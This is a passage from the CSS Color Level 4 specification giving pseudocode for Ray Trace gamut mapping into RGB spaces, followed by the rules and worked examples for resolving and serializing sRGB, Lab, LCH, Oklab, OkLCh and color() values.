A ray is cast from the inside of the RGB cube, from the anchor point to the current color. The intersection along this path with the RGB gamut surface is then found; this is the first approximation to the gamut mapped color.

As RGB spaces are not perceptually uniform, a constant hue, constant lightness ray is actually a curved path in RGB space.

The first approximation is converted back to Oklch to correct the color in the perceptual color space by projecting the point back onto the chroma reduction path, correcting the color’s hue and lightness. The corrected color becomes the new current color and should be a much closer color on the reduced chroma line.

This process is repeated (a maximum of three more times), each time finding a better, closer color on the path. Finally, simple clipping is used to account for floating point math errors.

The results are comparable to binary search with local MINDE using a low JND, but resolves much faster and within more predictable, consistent time.


Ray Trace gamut mapping to the sRGB gamut, showing the curved path of chroma reduction as approximated over a maximum of four iterations.  Image copyright Isaac Muse.

> **Note:** for the purposes of experimentation, and comparing implementations, implementations of the Ray Trace are available in the Coloraide library (in Python) [Coloraide-Ray-Trace] and the color.js library (in JavaScript) [colorjs-RayTrace].

##### 14.2.6.  Sample Pseudocode for the Ray Trace Gamut Mapping {#css-color-4:pseudo-raytrace}

To **Ray Trace Gamut Map** a color *origin* in color space *origin color space* to be in gamut of an RGB destination color space *destination*:

1. if *destination* has no gamut limits (XYZ-D65, XYZ-D50, Lab, LCH, Oklab, OkLCh) convert *origin* to *destination* and return it as the gamut mapped color
2. let *origin_OkLCh* be *origin* converted from *origin color space* to the OkLCh color space
3. if the Lightness of *origin_OkLCh* is greater than or equal to 100%, convert `oklab(1 0 0 / origin.alpha)` to *destination* and return it as the gamut mapped color
4. if the Lightness of *origin_OkLCh* is less than or equal to 0%, convert `oklab(0 0 0 / origin.alpha)` to *destination* and return it as the gamut mapped color
5. let *l_origin* be the OkLCh lightness component of *origin_OkLCh*
6. let *h_origin* be the OkLCh hue component of *origin_OkLCh*
7. let *anchor* be an achromatic OkLCh color formed with *l_origin* as lightness, 0 as chroma and *h_origin* as hue, converted to the *linear-light* form of *destination* and clamped to the gamut [10](#css-color-4:raytrace-footnote-10)
8. let *origin_rgb* be *origin_OkLCh* converted to the *linear-light* form of *destination*
9. if *origin_rgb* is not in gamut

  - let *low* be 0.0 + 1E-12 [1](#css-color-4:raytrace-footnote-1)
  - let *high* be 1.0 - 1E-12 [2](#css-color-4:raytrace-footnote-2)
  - let *last* be *origin_rgb*
  - for (i=0; i<4; i++)

    - if (i > 0)

      - let *current_OkLCh* be *origin_rgb* converted to OkLCh
      - let the lightness of *current_OkLCh* be *l_origin*
      - let the hue of *current_OkLCh* be *h_origin* [3](#css-color-4:raytrace-footnote-3)
      - let *origin_rgb* be *current_OkLCh* converted to the *linear-light* form of *destination*
    - **Cast a ray** from *start* = *anchor* to *end* = *origin_rgb* and let *intersection* be the intersection of this ray with the gamut boundary
    - if an intersection was not found, let *origin_rgb* be *last* and exit the loop [5](#css-color-4:raytrace-footnote-5)
    - if (i >0) AND (each component of *origin_rgb* is between *low* and *high*) then let *anchor* be *origin_rgb* [4](#css-color-4:raytrace-footnote-4)
    - let *origin_rgb* be *intersection*
    - let *last* be *intersection*
10. let clip(*color*) be a function which converts *color* to *destination*, clamps each component to the bounds of the reference range for that component and returns the result
11. set *clipped* to clip(*origin_rgb*)
12. return *clipped* as the gamut mapped color

To **cast a ray** through a linear-light RGB space from *start* to *end* (in gamut mapping, *start* is an anchor within the RGB gamut and *end* is the gamut mapped color, on the cubical gamut surface):

1. let *bmin* and *bmax* be 3-element arrays with the gamut’s lower and upper bounds, respectively [6](#css-color-4:raytrace-footnote-6)
2. let *tfar* be infinity (or some very large number)
3. let *tnear* be -infinity (or some very large, negative number)
4. let *direction* be a 3-element array
5. let *length* be 0
6. let *magnitude* be 0
7. for (i = 0; i < 3; i++):

  - let *a* be *start* *[i]*
  - let *b* be *end* *[i]*
  - let *d* be *b* - *a*
  - let *direction* *[i]* be *d*
  - let *length* be max(*length*, abs(*d*))
  - let *magnitude* be max(*magnitude*, abs(*a*), abs(*b*))
  - if *d* is not zero [7](#css-color-4:raytrace-footnote-7)

    - let *t1* be (*bmin* *[i]* - *a* ) / *d*
    - let *t2* be (*bmax* *[i]* - *a* ) / *d*
    - let *tnear* be max(min(*t1*, *t2*), *tnear* )
    - let *tfar* be min(max(*t1*, *t2*), *tfar* )
  - else if (*a* < *bmin**[i]* or *a* > *bmax**[i]*)

    - return INTERSECTION NOT FOUND
8. if *length* is less than or equal to *magnitude* * 1E-12 [9](#css-color-4:raytrace-footnote-9)

  - return INTERSECTION NOT FOUND
9. if (*tnear* > *tfar* or *tfar* < 0)

  - return INTERSECTION NOT FOUND
10. if *tnear* < 0

  - let *tnear* be *tfar* [8](#css-color-4:raytrace-footnote-8)
11. if *tnear* is infinite (or matches the initial very large value)

  - return INTERSECTION NOT FOUND
12. for (i =0; i < 3; i++):

  - let *result* *[i]* be *start* *[i]* + *direction* *[i]* * *tnear*
13. return *result*

###### 14.2.6.1. Footnotes for Ray Trace algorithm {#css-color-4:raytrace-footnotes}

1. It is assumed the minimum value is 0 and that all channels have the same minimum. The value should be small relative to the unit type. The specified value of 1e-12 is for 64-bit, but for 32-bit, 1e-5 should be used.
2. 1.0 represents the maximum in-gamut channel value, and it is assumed all channels have the same maximum.
3. This places the current color back on the chroma reduction curve, if it has deviated.
4. This means *origin_rgb* is below the gamut surface, so we use it as an anchor closer to the gamut surface.
5. This is provided for catastrophic failures where a specific, perceptual mapping space completely breaks down due to ridiculously wide colors (outside the visible spectrum). It is expected that non-imaginary colors in CSS should never trigger this.
6. For typical RGB spaces where the gamut bounds are 0 and 1 for each component this simplifies to a single constant rather than a 3-element array.
7. Only an exactly-zero component is parallel to that pair of faces. A small component still limits the ray when *start* is close to the face, and skipping it returns a point outside the gamut, which the final clip turns into a different color.
8. favoring the first intersection in the direction *start* -> *end* .
9. The endpoints differ by no more than their own rounding error. The value should be small relative to the unit type. The specified value of 1e-12 is for 64-bit, but for 32-bit, 1e-6 should be used.
10. Rounding can leave the anchor slightly outside the cube, so the ray starts outside the gamut.

### 15.  Resolving `<color>` Values {#css-color-4:resolving-color-values}

Unless otherwise specified for a particular property, specified colors are resolved to **computed colors** and then further to **used colors** as described below.

The resolved value of a `<color>` is its used value.

#### 15.1.  Resolving sRGB values {#css-color-4:resolving-sRGB-values}

This applies to:

- hex colors
- `rgb()` and `rgba()` values
- `hsl()` and `hsla()` values
- `hwb()` values
- named colors

It does *not* apply to:

- `color()` values using the `srgb` or `srgb-linear` color spaces.

If the sRGB color was explicitly specified by the author as a named color, the declared value is that named color, converted to [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase). The computed and used value is the corresponding sRGB color, paired with the specified alpha component (after clamping to [0, 1]) and defaulting to opaque if unspecified).

> **Example:** The author-provided mixed-case form below has a declared value in all lowercase.
>
> ```css
>  pUrPlE
>
>        purple
> ```

Otherwise, the declared, computed and used value is the corresponding sRGB color, paired with the specified alpha component (after clamping to [0, 1]) and defaulting to opaque if unspecified).

For historical reasons, when `calc()` in sRGB colors resolves to a single value, the declared value serialises without the "calc(" ")" wrapper.

> **Example:** For example, if a color is given as  rgb(calc(64 * 2) 127 255) the declared value will be rgb(128 127 255) and not rgb(calc(128) 127 255).

> **Example:** For example, if a color is given as  hsl(38.82 calc(2 * 50%) 50%) the declared value will be rgb(255 165.2 0) because the `calc()` is lost during HSL to RGB conversion.

Also for historical reasons, when calc() is simplified down to a single value, the color values are clamped to [0.0, 255.0].

> **Example:** For example, if a color is given as  rgb(calc(100 * 4) 127 calc(20 - 35)) the declared value will be rgb(255 127 0) and not rgb(calc(400) 127 calc(-15)).

This clamping also takes care of values such as `Infinity`, `-Infinity`, and `NaN` which will clamp at 255, 0 and 0 respectively.

> **Example:** For example, the computed value of
>
> ```css
>  hsl(38.824 100% 50%)
> ```
>
> is
>
> ```css
>  rgb(255, 165, 0)
> ```

#### 15.2.  Resolving Lab and LCH values {#css-color-4:resolving-lab-lch-values}

This applies to `lab()` and `lch()` values.

The declared, computed and used value is the corresponding CIE Lab or LCH color (after clamping of L, C and H) paired with the specified alpha component (as a `<number>`, not a `<percentage>`; and defaulting to opaque if unspecified).

> **Example:** For example, the computed value of
>
> ```css
>  lch(52.2345% 72.2 56.2 / 1)
> ```
>
> is
>
> ```css
>  lch(52.2345% 72.2 56.2)
> ```

Although the values of a, b and C are theoretically unbounded, there may be an implementation-defined limit for values approaching infinity.

#### 15.3.  Resolving Oklab and OkLCh values {#css-color-4:resolving-oklab-oklch-values}

This applies to `oklab()` and `oklch()` values.

The declared, computed and used value is the corresponding Oklab or OkLCh color (after clamping of L, C and H) paired with the specified alpha component (as a `<number>`, not a `<percentage>`; and defaulting to opaque if unspecified).

> **Example:** For example, the computed value of
>
> ```css
>  oklch(42.1% 0.192 328.6 / 1)
> ```
>
> is
>
> ```css
>  oklch(42.1% 0.192 328.6)
> ```

Although the values of a, b and C are theoretically unbounded, there may be an implementation-defined limit for values approaching infinity.

#### 15.4.  Resolving values of the `color()` function {#css-color-4:resolving-color-function-values}

The declared, computed and used value is the color in the specified color space, paired with the specified alpha component (as a `<number>`, not a `<percentage>`; and defaulting to opaque if unspecified).

> **Example:** For example, the computed value of
>
> ```css
>  color(display-p3 0.823 0.6554 0.2537 /1)
> ```
>
> is
>
> ```css
>  color(display-p3 0.823 0.6554 0.2537)
> ```

For colors specified in the `xyz` color space, which is an alias of the `xyz-d65` color space, the computed and used value is in the `xyz-d65` color space.

> **Example:** For example, the computed value of
>
> ```css
>  color(xyz 0.472 0.372 0.131)
> ```
>
> is
>
> ```css
>  color(xyz-d65 0.472 0.372 0.131)
> ```

Although the values of r, g, b, x, y and z are theoretically unbounded, there may be an implementation-defined limit for values approaching infinity.

#### 15.5. Resolving other colors {#css-color-4:resolving-other-colors}

This applies to

- system colors,
- [deprecated system colors](#css-color-4:deprecated-system-colors)
- `transparent`
- `currentcolor`.

If the color was explicitly specified by the author as a system color or as a deprecated system color, the declared value is itself, converted to [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase).

> **Example:** For example, in this html:
>
> ```html
> <mark style="color:  MarkText; background:  Mark">example</mark>
> ```
>
> The declared value for background-color is "mark".

For system colors, the computed and used value is the corresponding color in its color space, paired with the specified alpha component (after clamping to [0, 1]).

For [deprecated system colors](#css-color-4:deprecated-system-colors), the computed and used value is the color of the corresponding system color (as listed in [Appendix A: Deprecated CSS System Colors](#css-color-4:deprecated-system-colors)) in its color space, paired with the specified alpha component (after clamping to [0, 1]).

> **Example:** For example, given this css:
>
> ```css
> .foo {
>       color:  InfoText;
>     }
> ```
>
> The corresponding system color for `InfoText` is `CanvasText`. Suppose that `CanvasText` is #333; then the computed value for `InfoText` will also be #333;

> **Example:** For example, in this html:
>
> ```html
> <button style="color:  ButtonText; background:  ButtonFace"></button>
> ```
>
> The declared value of the color property is "buttontext" while the computed value could be, for example,  rgb(0, 0, 0).

However, system colors and deprecated system colors must not be altered by forced colors mode.

The declared value of `transparent` is "transparent" while the computed and used value is transparent black.

The `currentcolor` keyword computes to itself.

In the `color` property, the used value of `currentcolor` is the resolved inherited value. In any other property, its used value is the used value of the `color` property on the same element.

> **Note:** This means that if the `currentcolor` value is inherited, it’s inherited as a keyword, not as the value of the `color` property, so descendants will use their own `color` property to resolve it.

> **Example:** For example, given this html:
>
> ```html
> <div>
>   <p>Assume this example text is long enough
>     to wrap on multiple lines.
>   </p>
> </div>
> ```
>
> and this css:
>
> ```css
> div {
>   color:  forestgreen;
>   text-shadow: currentColor;
> }
> p {
>   color:  mediumseagreen;
> }
> p::firstline {
>   color:  yellowgreen;
> }
> ```
>
> The used value of the inherited property text-shadow on the first line fragment would be yellowgreen.

### 16.  Serializing `<color>` Values {#css-color-4:serializing-color-values}

This section updates and replaces that part of CSS Object Model, section  [Serializing CSS Values](#cssom-1:serializing-css-values), which relates to serializing `<color>` values.

In this section, the strings used in the specification and the corresponding characters are as follows.

| String | Character(s) |
| --- | --- |
| " " | U+0020 SPACE |
| "#" | U+0023 NUMBER SIGN |
| "," | U+002C COMMA |
| "-" | U+002D HYPHEN-MINUS |
| "." | U+002E FULL STOP |
| "/" | U+002F SOLIDUS |
| "none" | U+006E LATIN SMALL LETTER N U+006F LATIN SMALL LETTER O U+006E LATIN SMALL LETTER N U+0065 LATIN SMALL LETTER E |

The string "." shall be used as a decimal separator, regardless of locale, and there shall be no thousands separator.

For syntactic forms which support missing color components, the value `none` (equivalently NONE, nOnE, etc), shall be serialized in all-lowercase as the string "none".

#### 16.1.  Serializing alpha values {#css-color-4:serializing-alpha-values}

This applies to any `<color>` value which can take an optional alpha value. It does not apply to the `opacity` property.

If, after clamping to the range [0, 1] the alpha is 1, it is omitted from the serialization; an implicit value of 1 (fully opaque) is the default.

If the alpha is any other value than 1, it is explicitly included in the serialization as described below.

For historical reasons, the serialization of alpha depends on whether the color was specified using legacy color syntax or modern color syntax.

##### 16.1.1.  Serializing legacy alpha values {#css-color-4:serializing-legacy-alpha-values}

If the value is internally represented as an integer between 0 and 255 inclusive (i.e. 8-bit unsigned integer), follow these steps:

1. Let *alpha* be the given integer.
2. If there exists an integer between 0 and 100 inclusive that, when multiplied with 2.55 and rounded to the closest integer (rounding up if two values are equally close), equals *alpha*, let *rounded* be that integer divided by 100.
3. Otherwise, let *rounded* be *alpha* divided by 0.255 and rounded to the closest integer (rounding up if two values are equally close), divided by 1000.
4. Return the result of serializing *rounded* as a `<number>`.

Otherwise, return the result of serializing the given value (as a `<number>`, not a `<percentage>`), the same as the modern alpha serialization.

> **Example:** For example, if the alpha is stored as the 8-bit unsigned integer 237, the integer 93 satisfies the criterion because Math.round(93 * 2.55) is 237, and so the alpha is serialized as "0.93".
>
> However, if the alpha is stored as the 8-bit unsigned integer 236, there is no such integer (92 maps to 235 while 94 maps to 240), and so since 236 ÷ 0.255 = 925.490196078 the alpha is serialized as "0.92549" (no more than 6 figures, trailing zeroes omitted).

For legacy color syntax, the precision with which alpha values are retained, and thus the number of decimal places in the serialized value, must at least be sufficient to round-trip integer percentage values. Thus, the serialized value must contain at least two decimal places (unless trailing zeroes have been removed). Values must be [rounded towards +∞](#css-values-4:combine-integers), not truncated.

> **Example:** For example, an alpha value of 12.3456789% could be serialized as the strings "0.12" or "0.123" or "0.1234" or "0.12346" (rounding the value of 5 towards +∞ because the following digit is 6) or any longer, rounded serialization of the same form.

##### 16.1.2.  Serializing modern alpha values {#css-color-4:serializing-modern-alpha-values}

Return the result of serializing the given value (as a `<number>`, not a `<percentage>`).

The `<number>` value is expressed in base ten, with the "." character as decimal separator. The leading zero must not be omitted. Trailing zeroes must be omitted.

> **Example:** For example, an alpha value of 70% will be serialized as the string "0.7" which has a leading zero before the decimal separator, "." as decimal separator (even if the current locale would use some other character, such as ","), and all digits after the "7" would be "0" and are omitted.

For modern color syntax, the precision with which `<alpha-value>`s are retained, and thus the number of decimal places in the serialized value, is required to be sufficient to round-trip 16-bit decimal values.

The serialized value must contain six decimal places (unless trailing zeroes have been removed).

Values must be [rounded towards +∞](#css-values-4:combine-integers), not truncated.

> **Example:** For example, an alpha value of 12.3456789% will be serialized as the string "0.123457" (rounding the value towards +∞).

> **Example:** For example, given the color color(srgb 1 0 0 / 0.5), the alpha value is to be serialized as the string "0.5". If it were stored at only 10-bit precision, the internal value would be 512/1023 which is 0.50048875855, or "0.500489" to six significant figures, close to the desired value but not exact. At 12-bit that would be 2048/4095 which is 0.50012210012, which is 0.500122 to six significant figures, still not exact.
>
> It would also be incorrect to store it as 128/255 which is 0.50196078431, or 0.501960 to six significant figures.

To avoid cumulative round-off errors, 16bit, half-float, or float per alpha component is recommended for internal storage.

Because `<alpha-value>`s which were specified outside the valid range are clamped at parse time, the declared value will be clamped. However, per [CSS Values 4 § 10.12 Range Checking](#css-values-4:calc-range), <alpha-value>s specified using calc() are not clamped when the specified form is serialized; but the computed values are clamped.

> **Example:** For example an alpha value which was specified directly as 120% would be serialized as the string "1". However, if it was specified as calc(2*60%) the declared value would be serialized as the string "calc(1.2)".

#### 16.2.  Serializing sRGB values {#css-color-4:serializing-sRGB-values}

The serialized form of the following sRGB values:

- hex colors
- `rgb()` and `rgba()` values
- `hsl()` and `hsla()` values
- `hwb()` values
- named colors
- system colors
- [deprecated-colors](#css-color-4:deprecated-system-colors)
- `transparent`

is derived from the declared value.

When serializing the value of a property which was set by the author to a CSS named color, a system color, a [deprecated-color](#css-color-4:deprecated-system-colors), or `transparent` therefore, for the declared value, the [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase) keyword value is retained. For the computed and used value, the corresponding sRGB value is used.

Thus, the serialized declared value of `transparent` is the string "transparent", while the serialized computed value of `transparent` is the string "rgba(0, 0, 0, 0)".

For all other sRGB values, the declared, computed and used value is the corresponding sRGB value.

During serialization, any missing values are converted to 0 if the chosen serialization form (such as the legacy color syntax with comma separators, or the [HTML-compatible serialization](#css-color-4:HTML-compatible-serialization-of-srgb) of sRGB values) cannot represent the `none` keyword. When at least one component is missing and the value can be serialized in a form which supports `none`, the form is chosen as described in [§ 16.2.2 CSS serialization of sRGB values](#css-color-4:css-serialization-of-srgb) so that missing color components are preserved as `none`.

##### 16.2.1. HTML-compatible serialization of sRGB values {#css-color-4:HTML-compatible-serialization-of-srgb}

If the following conditions are all true:

1. The color space is sRGB
2. The alpha is 1
3. The RGB component values are internally represented as integers between 0 and 255 inclusive (i.e. 8-bit unsigned integer)
4. **HTML-compatible serialization is requested**

Then corresponding sRGB values are serialized in 6-digit hex color notation as follows:

A seven-character string consisting of the character "#", followed immediately by the two-digit hexadecimal representations of the red component, the green component, and the blue component, in that order, using [ASCII lower hex digits](https://infra.spec.whatwg.org/#ascii-lower-hex-digit). No spaces are permitted.

> **Example:** For example, fill style is set to  magenta:
>
> ```js
> context.fillStyle = "rgb(255, 0, 255)"
> console.log(context.fillStyle); // "#ff00ff"
> ```
>
> The color space is sRGB, the representation is 8 bits per component, the data format does not produce `none` values nor does it support extended range values, and the alpha is 1.
>
> The HTML-compatible serialization is the string "#ff00ff" (not "#FF00FF").

Otherwise, for sRGB the [CSS serialization of sRGB values is used](#css-color-4:css-serialization-of-srgb) and for other color spaces, the relevant [serialization](#css-color-4:serializing-color-values) of the `<color>` value.

> **Example:** For example, fill style is set to  a dark brown, in CIE Lab:
>
> ```js
> context.fillStyle = "lab(29% 39 20)";
> console.log(context.fillStyle); // "lab(29 39 20)"
> ```
>
> The CSS serialization is the string "lab(29 39 20)".

> **Example:** For example, fill style is set to  semi-transparent magenta:
>
> ```js
> context.fillStyle = "#ff00ffed";
> console.log(context.fillStyle); // "rgba(255, 0, 255, 0.93)"
> ```
>
> The alpha is not 1, so the CSS serialization is the string "rgba(255, 0, 255, 0.93)".

##### 16.2.2. CSS serialization of sRGB values {#css-color-4:css-serialization-of-srgb}

If the value has no missing color components, corresponding sRGB values use either the `rgb()` or `rgba()` form (depending on whether the (clamped) alpha is exactly 1, or not), with all [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase) letters for the function name.

For compatibility, the sRGB component values are serialized in `<number>` form, not `<percentage>`. Also for compatibility, the component values are serialized in base 10, with a range of [0-255], regardless of the bit depth with which they are stored.

[As noted earlier](#css-color-4:serializing-alpha-values), unitary alpha values are not explicitly serialized. Also, for compatibility, if the alpha is exactly 1, the `rgb()` form is used, with an implicit alpha; otherwise, the `rgba()` form is used, with an explicit alpha value.

For compatibility, the legacy form with comma separators is used; exactly one ASCII space follows each comma. This includes the comma (not slash) used to separate the blue component of `rgba()` from the alpha value.

However, the legacy color syntax with comma separators cannot represent `none`. If the value has at least one missing color component, the serialization form is chosen to preserve those components as the `none` keyword, based on the color function of the declared value:

- For `rgb()` and `rgba()` values (the only sRGB form in this list whose syntax accepts `none`; hex colors, named colors, system colors, [deprecated-colors](#css-color-4:deprecated-system-colors), and `transparent` have no parametric syntax and so never have missing color components), the value is serialized as a `color()` function in the `srgb` color space rather than as the modern space-separated form of `rgb()`, even though that form would also accept `none`: "color(srgb" followed by a single space, followed by a space-separated list of the three non-alpha components serialized as `<number>`s in the [0, 1] reference range (or as `none` if missing), followed (only if the alpha is non-unity or missing) by " / " and the alpha component (serialized per the [alpha rules](#css-color-4:serializing-alpha-values), or as `none` if missing), followed by ")".
- For `hsl()` and `hsla()` values, the value is serialized using the modern (whitespace-separated) `hsl()` syntax, with a slash before the alpha component when present. The function name is "hsl" (in [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase)) regardless of whether the value was authored using the `hsla()` alias. The hue is serialized as a canonicalized `<number>` in degrees, the saturation and lightness as `<percentage>`s, and the alpha (included only if non-unity or missing) per the [alpha rules](#css-color-4:serializing-alpha-values); any missing component is serialized as the `none` keyword.
- For `hwb()` values, the value is serialized using the modern (whitespace-separated) `hwb()` syntax, with a slash before the alpha component when present. The function name is "hwb" in [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase). The hue is serialized as a canonicalized `<number>` in degrees, the whiteness and blackness as `<percentage>`s, and the alpha (included only if non-unity or missing) per the [alpha rules](#css-color-4:serializing-alpha-values); any missing component is serialized as the `none` keyword.

> **Note:** this means that an `hsl()` or `hwb()` value containing `none` round-trips through serialization in its own color function, rather than degrading to `rgba()` (whose legacy form cannot represent `none`), while an `rgb()` value containing `none` is serialized via `color(srgb …)`. The modern space-separated form of `rgb()` could itself represent `none`, but the [sRGB CSS serialization](#css-color-4:serializing-color-values) uses `color(srgb …)` instead for consistency with how all other color spaces are serialized in their non-legacy form. This parallels the behavior of relative color syntax defined in [CSS Color 5 § 11.2 Serializing Origin Colors](#css-color-5:serial-origin-color).

> **Example:** For example, the serialized value of
>
> ```css
>  rgb(29 164 192 / 95%)
> ```
>
> is the string "rgba(29, 164, 192, 0.95)"

> **Example:** For example, an author-supplied value:
>
> ```css
>  hwb(740deg 20% 30% / 50%)
> ```
>
> Would be normalized first to
>
> ```css
>  hwb(20 20% 30% / 50%)
> ```
>
> and then converted to sRGB and serialized as
>
> ```css
>  rgba(178.5, 93.5, 51, 0.5)
> ```
>
> The precision of the returned result is [described below](#css-color-4:sRGB-precision).

> **Example:** For example, the author-supplied value
>
> ```css
> hwb(20 none 30% / none)
> ```
>
> contains missing color components (both the whiteness and the alpha are `none`), so it is *not* serialized through `rgba()`. Instead, it is serialized using the modern `hwb()` syntax as
>
> ```css
> hwb(20 none 30% / none)
> ```
>
> preserving each `none` value.

> **Example:** Similarly, the author-supplied value
>
> ```css
> rgb(none 0 0)
> ```
>
> is serialized as
>
> ```css
> color(srgb none 0 0)
> ```
>
> because `rgb()` (in its serialized legacy comma form) cannot represent `none`.

> **Note:** contrary to CSS Color 3, the parameters of the `rgb()` function are of type `<number>`, not `<integer>`. Thus, any higher precision than eight bits is indicated with a fractional part.

The precision with which sRGB component values are retained, and thus the number of significant figures in the serialized value, is not defined in this specification, but must at least be sufficient to round-trip eight bit values. Values must be [rounded towards +∞](#css-values-4:combine-integers), not truncated.

> **Note:** authors of scripts which expect color values returned from getComputedStyle to have `<integer>` component values, are advised to update them to also cope with `<number>`.

> **Example:** For example,
>
> ```css
>  rgb(146.064 107.457 131.223)
> ```
>
> is now valid, and equal to
>
> ```css
>  rgb(57.28% 42.14% 51.46%)
> ```
>
> A conformant serialized form for both, is the string "rgb(146.06, 107.46, 131.2)".

Trailing fractional zeroes in any component values must be omitted; if the fractional part consists of all zeroes, the decimal point must also be omitted. This means that sRGB colors specified with integer component values will serialize with backwards-compatible integer values.

> **Example:** The serialized computed value of
>
> ```css
>  ''goldenrod''
> ```
>
> is the string "rgb(218, 165, 32)" and not the string "rgb(218.000, 165.000, 32.000)"

#### 16.3.  Serializing Lab and LCH values {#css-color-4:serializing-lab-lch}

The serialized form of `lch()` and `lab()` values is derived from the computed value and uses the `lab()` or `lch()` forms, with [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase) letters for the function name.

The component values are serialized in base 10; the L, a, b and C component values are serialized as `<number>`, using the [Lab percentage reference ranges](#css-color-4:prr-lab) or the [LCH percentage reference ranges](#css-color-4:prr-lch) as appropriate to perform percentage to number conversion; thus 0% L maps to 0 and 100% L maps to 100. A single ASCII space character " " must be used as the separator between the component values.

> **Example:** The serialized value of
>
> ```css
>  lab(56.200% 0.000 83.600)
> ```
>
> is the string "lab(56.2 0 83.6)"

> **Example:** The serialized value of
>
> ```css
>  lab(56.200% 0.000 66.88%)
> ```
>
> is the string "lab(56.2 0 83.6)"

Trailing fractional zeroes in any component values must be omitted; if the fractional part consists of all zeroes, the decimal point must also be omitted.

> **Example:** The serialized value of
>
> ```css
>  lch(37% 105.0 305.00)
> ```
>
> is the string "lch(37 105 305)", not "lch(37 105.0 305.00)".

The precision with which `lab()` component values are retained, and thus the number of significant figures in the serialized value, is not defined in this specification, but due to the wide gamut must be sufficient to round-trip L values between 0 and 100, and a and b values between ±127, with at least sixteen bit precision; this will result in at least three decimal places unless trailing zeroes have been omitted. (half float or float, is recommended for internal storage). Values must be [rounded towards +∞](#css-values-4:combine-integers), not truncated.

> **Note:** a and b values outside ±125 are possible with ultrawide gamut spaces. For example, *all* of the `prophoto-rgb` primaries and secondaries exceed this range, but are within ±200.

[As noted earlier](#css-color-4:serializing-alpha-values), unitary alpha values are not explicitly serialized. Non-unitary alpha values must be explicitly serialized, and the string " / " (an ASCII space, then forward slash, then another space) must be used to separate the b component value from the alpha value.

> **Example:** The serialized value of
>
> ```css
>  lch(56.2% 83.6 357.4 /93%)
> ```
>
> is the string "lch(56.2 83.6 357.4 / 0.93)" not "lch(56.2% 83.6 357.4 / 0.93)"

#### 16.4.  Serializing Oklab and OkLCh values {#css-color-4:serializing-oklab-oklch}

The serialized form of `oklch()` and `oklab()` values is derived from the computed value and uses the `oklab()` or `oklch()` forms, with [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase) letters for the function name.

The component values are serialized in base 10; the L, a, b and C component values are serialized as `<number>` using the [Oklab percentage reference ranges](#css-color-4:prr-oklab) or the [OkLCh percentage reference ranges](#css-color-4:prr-oklch) as appropriate to perform percentage to number conversion; thus 0% L maps to 0 and 100% L maps to 1.0. A single ASCII space character " " must be used as the separator between the component values.

> **Example:** The serialized value of
>
> ```css
>      oklab(54.0% -0.10 -0.02)
> ```
>
> is the string "oklab(0.54 -0.1 -0.02)" not "oklab(54 -0.1 -0.02)" or "oklab(54% -0.1 -0.02)"

> **Example:** The serialized value of
>
> ```css
>      oklab(54.0 -25% -5%)
> ```
>
> is the string "oklab(0.54 -0.1 -0.02)" not "oklab(54 -0.25 -0.05)"

Trailing fractional zeroes in any component values must be omitted; if the fractional part consists of all zeroes, the decimal point must also be omitted.

> **Example:** The serialized value of
>
> ```css
>  oklch(56.43% 0.0900 123.40)
> ```
>
> is the string "oklch(0.5643 0.09 123.4)", not "oklch(0.5643 0.0900 123.40)".

The precision with which `oklab()` component values are retained, and thus the number of significant figures in the serialized value, is not defined in this specification, but due to the wide gamut must be sufficient to round-trip L values between 0 and 1 (0% and 100%), and a, b and C values between ±0.5, with at least sixteen bit precision; this will result in at least five decimal places unless trailing zeroes have been omitted. (half float or float, is recommended for internal storage). Values must be [rounded towards +∞](#css-values-4:combine-integers), not truncated.

> **Note:** a, b and C values outside ±0.5 are possible with ultrawide gamut spaces. For example, the `prophoto-rgb` green and blue primaries exceed this range, with C of 0.526 and 1.413 respectively.

[As noted earlier](#css-color-4:serializing-alpha-values), unitary alpha values are not explicitly serialized. Non-unitary alpha values must be explicitly serialized, and the string " / " (an ASCII space, then forward slash, then another space) must be used to separate the final color component (b, or C) value from the alpha value.

> **Example:** The serialized value of
>
> ```css
>  oklch(53.85% 0.1725 320.67 / 70%)
> ```
>
> is the string "oklch(0.5385 0.1725 320.67 / 0.7)"

#### 16.5.  Serializing values of the `color()` function {#css-color-4:serializing-color-function-values}

The serialized form of `color()` values is derived from the computed value and uses the `color()` form, with [ASCII lowercase](https://infra.spec.whatwg.org/#ascii-lowercase) letters for the function name and the color space name.

The component values are serialized in base 10, as `<number>`. A single ASCII space character " " must be used as the separator between the component values, and also between the color space name and the first color component.

> **Example:** The serialized value of
>
> ```css
>  color(dIsPlAy-P3  0.964  0.763  0.787)
> ```
>
> is the string "color(display-p3 0.96 0.76 0.79)", if two decimal places are retained. Notice that 0.787 has rounded up to 0.79, rather than being truncated to 0.78.

Trailing fractional zeroes in any component values must be omitted; if the fractional part consists of all zeroes, the decimal point must also be omitted.

> **Example:** The serialized value of
>
> ```css
>  color(rec2020 0.400 0.660 0.340)
> ```
>
> is the string "color(rec2020 0.4 0.66 0.34)", not "color(rec2020 0.400 0.660 0.340)".

If the color space is sRGB, the color space is still explicitly required in the serialized result.

For the predefined color spaces, the *minimum* precision for round-tripping is as follows:

| color space | Minimum bits |
| --- | --- |
| `srgb` | 10 |
| `srgb-linear` | 12 |
| `display-p3` | 10 |
| `display-p3-linear` | 12 |
| `a98-rgb` | 10 |
| `prophoto-rgb` | 12 |
| `rec2020` | 12 |
| `xyz`, `xyz-d50`, `xyz-d65` | 16 |

(16bit, half-float, or float *per component* is recommended for internal storage). Values must be [rounded towards +∞](#css-values-4:combine-integers), not truncated.

> **Note:** compared to the legacy forms such as `rgb()`, `hsl()` and so on, `color(srgb)` has a higher minimum precision requirement. Stylesheet authors who prefer higher precision are thus encouraged to use the `color(srgb)` form.

[As noted earlier](#css-color-4:serializing-alpha-values), unitary alpha values are not explicitly serialized. Non-unitary alpha values must be explicitly serialized, and the string " / " (an ASCII space, then forward slash, then another space) must be used to separate the final color component value from the alpha value.

> **Example:** The serialized value of
>
> ```css
>  color(prophoto-rgb 0.2804 0.40283 0.42259/85%)
> ```
>
> is the string "color(prophoto-rgb 0.28 0.403 0.423 / 0.85)", if three decimal places are retained.

#### 16.6.  Serializing other colors {#css-color-4:serializing-other-colors}

This applies to `currentcolor`.

